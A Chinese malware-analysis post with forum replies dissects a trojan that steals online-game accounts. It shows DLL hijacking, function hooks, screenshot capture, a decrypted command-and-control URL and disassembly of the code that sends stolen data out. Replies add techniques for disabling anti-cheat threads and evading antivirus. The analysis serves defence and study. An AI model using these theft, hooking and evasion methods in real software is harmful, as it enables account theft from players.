


# 一款盗号木马的分析

> 原文：[`www.pediy.com/kssd/pediy12/132981.html`](https://www.pediy.com/kssd/pediy12/132981.html)

## 一、主程序流程分析：

主程序名：`ctfmon.exe`（仿冒微软输入法配置程序）

壳：无壳

编写语言：汇编（估计）

1. 用 `GetLogicalDriveStringsA` API 获得所有系统盘符存放到一个字符串；
2. 读取自身文件尾部的 `0x1C4` 字节数据，并根据最后 4 字节的 `DWORD` 值，调用 `NEW` 函数申请内存（为 `0x2A00` 大小）；
3. 从自身文件距离尾部（`0x1C4+0x2A00`）字节处，读取 `0x2A00` 字节数据，存储到上面 `NEW` 出来的内存中；
4. 关闭游戏主程序`******nest.exe`；
5. 根据注册表项：`SOFTWARE\\snda\\dn` 和 `Software\Microsoft\Windows\ShellNoRoam\MUICache` 找到游戏所在目录生成 `gamewidget.dll` 和 `midimap.dll`，`dll`，内容为第 3 步中的数据写 2001 次，再加上文件尾部的 `0x1C4` 字节数据，共 20.5 MB (21,515,204 字节)（太大了-.-）。（因为我没有安装这个游戏，所以也没有这些注册表项目，实际当中我自己建了一个 `SOFTWARE\\snda\\dn` 注册表项，随便给了一个路径）
6. 根据第 1 点里面得到的所有系统盘符字符串，用 `SearchTreeForFile` API（盘符多，硬盘大的时候好慢啊），查找 `Dnlauncher.exe` 程序，找到了之后在该目录下创建 `gamewidget.dll` 和 `midimap.dll`，因为没装游戏，我又伪造了一个 `Dnlauncher.exe` (-.-)
7. 本程序实现的自删除，会因机器是否安装有瑞星而有所不同。机器没有安装瑞星时是把自己移动到程序所在盘符的 `RECYCLER` 文件夹中，并重命名成一个 `GetTickCount` 得到的数字 + `.tmp` 后缀名的文件。在 XP 系统上这个文件比桌面上的回收站目录高一级，所以点击桌面的回收站，里面会看不到这个文件。机器安装了瑞星则不做上述处理。最后会将此文件设为下次重启电脑时删除。

## 二、生成的 DLL 模块流程分析：

1. 上面所说的 `gamewidget.dll` 和 `midimap.dll`，`dll` 内容都是一样，虽然文件很大（重复写了太多次的结果），但内容还是用了 `UPX` 加壳了（`UPX 0.80 - 1.24 DLL`）。`ESP` 定律简单脱壳，`PEID` 再查一下为 `Microsoft Visual C++ 6.0 DLL`。
2. 该 `dll` 首先将系统目录（XP 系统为`\WINDOWS\system32\`）下的 `midimap.dll` 文件复制一份为 `lqmidimap.dll` 放到同一目录下，然后创建一个线程，接下来的工作都在此线程中完成。
3. 进入线程后首先会创建一个互斥体对象防止线程多次运行，接下来比较主模块的模块名是否是“`******Nest.exe`”。如果不是则退出，如果是继续以下步骤。
4. 读取自身文件最后 `0x1C4` 字节（这里就要注意脱壳后的文件最后的字节和脱壳前已经不一样了，为了调试方便可以把脱壳前文件的尾部数据添加到脱壳后 `dll` 中），进行几步相套的算法变换，将最后的 `0x1C4` 字节解密出来，解密出来的数据如下：

```
10004C48 68 74 74 70 3A 2F 2F 68 61 68 61 35 2E 68 61 6F [`haha5.hao`](http://haha5.hao)
10004C58 72 65 6E 36 37 38 2E 63 6F 6D 3A 38 30 31 31 2F ren678.com:8011/
10004C68 66 65 6E 2F 71 6C 6E 62 32 30 2F 61 73 64 66 61 fen/qlnb20/asdfa
10004C78 67 61 73 61 73 64 66 67 7A 78 63 76 2E 61 73 70 gasasdfgzxcv.asp
10004C88 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 ................
10004C98 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 ................
10004CA8 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 ................
10004CB8 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 ................
10004CC8 68 74 74 70 3A 2F 2F 68 61 68 61 35 2E 68 61 6F [`haha5.hao`](http://haha5.hao)
10004CD8 72 65 6E 36 37 38 2E 63 6F 6D 3A 38 30 31 31 2F ren678.com:8011/
10004CE8 66 65 6E 2F 71 6C 6E 62 32 30 2F 61 73 64 66 61 fen/qlnb20/asdfa
10004CF8 67 61 73 61 73 64 66 67 7A 78 63 76 2E 61 73 70 gasasdfgzxcv.asp
10004D08 68 74 74 70 3A 2F 2F 68 61 68 61 35 2E 68 61 6F [`haha5.hao`](http://haha5.hao)
10004D18 72 65 6E 36 37 38 2E 63 6F 6D 3A 38 30 31 31 2F ren678.com:8011/
10004D28 66 65 6E 2F 71 6C 6E 62 32 30 2F 61 73 64 66 61 fen/qlnb20/asdfa
10004D38 67 61 73 61 73 64 66 67 7A 78 63 76 2E 61 00 00 gasasdfgzxcv.a..
10004D48 68 74 74 70 3A 2F 2F 68 61 68 61 35 2E 68 61 6F [`haha5.hao`](http://haha5.hao)
10004D58 72 65 6E 36 37 38 2E 63 6F 6D 3A 38 30 31 31 2F ren678.com:8011/
10004D68 66 65 6E 2F 71 6C 6E 62 32 30 2F 61 73 64 66 61 fen/qlnb20/asdfa
10004D78 67 61 73 61 73 64 66 67 7A 78 63 76 2E 61 73 70 gasasdfgzxcv.asp
10004D88 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 ................
10004D98 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 ................
10004DA8 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 ................
10004DB8 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 ................
10004DC8 78 78 73 73 00 00 00 00 00 00 00 00 00 00 00 00 xxss............
10004DD8 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 ................
10004DE8 61 62 63 64 00 00 00 00 00 00 00 00 00 00 00 00 abcd............
10004DF8 31 37 34 30 39 34 38 38 00 00 00 00 00 00 00 00 17409488........
10004E08 00 2A 00 00 .\*..
```

然后将 [`haha5.haoren678.com:8011/fen/qlnb20/asdfagasasdfgzxcv.asp`](http://haha5.haoren678.com:8011/fen/qlnb20/asdfagasasdfgzxcv.asp)

最后的 `asdfagasasdfgzxcv.asp` 替换为 `MIBAO.ASP`

即为： [`haha5.haoren678.com:8011/fen/qlnb20/MIBAO.ASP`](http://haha5.haoren678.com:8011/fen/qlnb20/MIBAO.ASP)

(难道是伪造密保页面吗？-.-)

5. 接下来 `HOOK` 了 "user32.dll" 中的 `MessageBoxTimeoutW` 函数，至于 `HOOK` 的目的，干了哪些事就不知道了。
6. 接下来，查找模块 `gwCore.dll`，`HOOK` 了该 `dll` 中一系列位置，`IDA` 中看这一段看的云里雾里。查找 `SDOA4ClientCom.dll` 模块，进行一系列 `HOOK`。
7. 从 `LZGSERVER.ini` 文件中拿到 `SERVER` 项内容，使用 `URLDownloadToFileA` 函数下载网页 [`patch.dn.sdo.com/sndalist/sndalist_new.xml`](http://patch.dn.sdo.com/sndalist/sndalist_new.xml) 保存到本机 `TEMP` 目录下，文件名为 `SerList.xml`，进行一番查找比较。之后线程结束。

## 三、后续分析：

分析到这里貌似也没什么再好分析的了，可能大家没看到木马作恶的过程有点失望，是的，我也没看到，因为他的关键功能都是在 `HOOK` 之后所跳转到的代码里面完成的，我大部分都是在 `IDA` 里面静态分析的，顺着流程走下来就是这样一个过程。

为了不让大家太失望，也为了让自己不至于觉得太没成就感，我又回头看了一下逆向分析的过程，结合导入表中的函数来看了下，该木马至少有屏幕截取和网络发送数据的嫌疑。那么就再稍微跟踪一下这两个方面吧。

### 1. 网络发包分析：

还记得我们在 `dll` 分析的第 4 步中，得到的那个网址吧

[`haha5.haoren678.com:8011/fen/qlnb20/MIBAO.ASP`](http://haha5.haoren678.com:8011/fen/qlnb20/MIBAO.ASP)

用 `IDA` 看一下，什么地方还引用了这个字符串，还真的有所收获：



把 `sub_10002B9E` 这个 `CALL` 跟进去，会发现里面有 `HTTP` 协议的数据发送和接收操作。

```
UPX0:10002DB7 push eax
UPX0:10002DB8 push offset aPostSHttp1_1Ac ; "POST %s HTTP/1.1\r\nAccept: text/plain, *"
UPX0:10002DBD push ebx ; Dest
UPX0:10002DBE call sprintf
UPX0:10002DC4 add esp, 54h
UPX0:10002DC7 lea eax, [ebp+Dest]
……………………………………中间多余代码已删减………………………………………………
UPX0:10002E2C push offset aQlmmsg ; "qlmmsg"
UPX0:10002E31 push eax
UPX0:10002E32 push offset aGetSHt ; "GET %s HT"
UPX0:10002E37 push ebx ; Dest
UPX0:10002E38 call sprintf
UPX0:10002E3E push ebx ; Str
UPX0:10002E3F call strlen
UPX0:10002E44 add esp, 18h
UPX0:10002E47 mov esi, eax
UPX0:10002E49
UPX0:10002E49 loc_10002E49: ; CODE XREF: sub_10002B9E+278j
UPX0:10002E49 xor edi, edi
UPX0:10002E4B push edi ; flags
UPX0:10002E4C push esi ; len
UPX0:10002E4D push ebx ; buf
UPX0:10002E4E push [ebp+s] ; s
UPX0:10002E51 call send ; 发送数据
……………………………………中间多余代码已删减………………………………………………
UPX0:10002E86 push edi ; flags
UPX0:10002E87 push esi ; len
UPX0:10002E88 push eax ; buf
UPX0:10002E89 push [ebp+s] ; s
UPX0:10002E8C call recv ; 接收数据
UPX0:10002E92 cmp eax, 0FFFFFFFFh
UPX0:10002E95 jz short loc_10002EDB
UPX0:10002E97 mov esi, offset aHttp1_1400 ; "HTTP/1.1 400"
```

### 2. 截图过程分析：

在我们第二阶段分析 `dll` 的时候其中第 6 步提到了该 `dll` `HOOK` 了 `gwCore.dll`。使 `gwCore.dll` 中的流程转到了自己的 `dll` 中来了，其中最后的一个 `HOOK`（在 `IDB` 文件里面我命名为 `hook_9`）里面又对另外一个 `dll`：`SDOA4ClientCom.dll` 进行了 `HOOK`（命名为 `hook_8`），在 `hook_8` 的代码里面有如下一些行为：

2.1 首先创建一个线程，该线程的作用是枚举屏幕窗口。



2.2 对每个枚举到的屏幕窗口用 `GetClassName` API 获得其类名，比较是否匹配 "IEFrame"、"ShImgVw:CPreviewWnd"、"Afx:400000:8" 这三种，如果均不匹配则不做任何处理。

2.3 如果匹配以上三种类名之一，则进行截屏并利用 `GDI+` 方法保存为 `BMP`, `JPG` 图形。

2.4 如果有截屏，则会将截屏图形通过上面的网络发包方式发送出去。

## 四、关于如何防范这类盗号木马或类似外挂的思考

该盗号木马在功能实现上大量使用 `HOOK` 技术，防范这种攻击，作为游戏开发方应该加强保护，例如对主程序和 `dll` 模块的保护，在一些关键位置进行必要的代码校验，如关键代码 `md5` 验证，`dll` 的 `CRC` 验证，`dll` 的签名认证等。作为游戏玩家为了防止盗号类木马入侵本机，造成盗号，应该注意少上来源不明的网站，不下载不可信的程序，及时给系统或常用软件打补丁，避免恶意程序利用漏洞传播进入个人电脑。当然，攻与防的较量是无止境的，“道高一尺，魔高一丈”，没有无坚不摧的防御，安全之路，任重而道远。

## 五、IDA 分析附件

1. `ctfmon.exe`：19.9 KB (20,420 字节)主程序
2. `1.dll`：42.5 KB (43,520 字节)生成的 `dll` 经过脱壳后的版本
3. `复件 1.dll`：53.4 KB (54,724 字节)生成的 `dll` 经过脱壳后，并在尾部附加需要解密的网址数据。

上传的附件

|  || `ctfmon 分析.rar`(解压密码：`muma`) |

爆汗，这个应该是 1 年前了的样本吧？我还分析过的，想下把分析的结果回复下:

木马生成 `gamewidget.dll` 和 `midimap.dll`，其中 `gamewidget.dll` 是被游戏主程序默认载入的一个 `DLL`。`midimap.dll` 是一个 `DLL` 劫持，比较有意思的是它利用的是 `IAT` 里的 API 名写成特殊的 `UpdatePerfNameFilesW=loadperf.UpdatePerfNameFilesW` 来实现 `DLL wapper` 的，非常简单有效。

木马访问的主要有二个页面

`mail.asp` 是发账号密码的 url

`mibao.asp` 类似于心跳包的 url

木马会 `HOOK` `gwCore.dll` 中的几个地址，分别截取用户和密码，角色的一些信息等。在截取角色信息的地方会访问包含 `mail.asp` 的 URL，发送截取的账号过去。

还会持续不断的访问 `mibao.asp`，测试发现返回 0 时不处理，返回 1 时木马会狠毒的把游戏给关掉。这样实现简单的控制


木马还会 HOOK `SDOA4ClientCom.dll` 中的几个地址，用来截取游戏的服务区的信息，木马通过读取游戏访问的服务器 `IP`，并和 `http://patch.dn.sdo.com/sndalist/sndalist_new.xml` 中的服务器名与 `IP` 对应关系获得服务器名。

忘了是不是这个样本的，木马会 HOOK `CreateThread`，然后在 `CreateaThread` 里判断要创建的进程在哪个 `DLL` 空间里，它会把 `GPK` 的 `DLL` 所创建的第一个线程禁止掉直接返回 `-1`。测试的结果是这个 `GPK` 的线程是检查游戏的模块是否被恶意修改，是则在游戏里会强制断开连接，这个是很有意思的功能。

不过有另一个很不错的样本，是通过硬件断点实现截取的，忘了它 HOOK 的哪儿，是线程创建时期的回调函数，在里面修改 `DRx` 实现硬件断点的，并且用 `xp` 新加入的 `VEH` 异常管理机制扑捉实现的 `HOOK`，这样避过检测真的很有意思。

`LZ` 分析最新的样本，应该把它怎么免杀的方法介绍一下啊，一般这个才重要的。 `/:^\]`

这个马，我看着这么眼熟。特别是这几个地址。。。似乎。。。

`hook` 盗号。根据某人的经验，应该是 `DLL` 劫持后，读取游戏进程空间。比如用户名，先在进程空间中，查找特征码，然后在此处 `hook`，后面的事，，你懂的。。

至于免杀，我觉得主动防御不可能将所有的 `API` 都 `HOOK` 吧？？？可以利用一些比较偏的函数，这些函数在操作过程中，更像是你在手动操作，比如 `SHXXX` 系列的函数。。。

以上纯属个人遇见，别拍砖
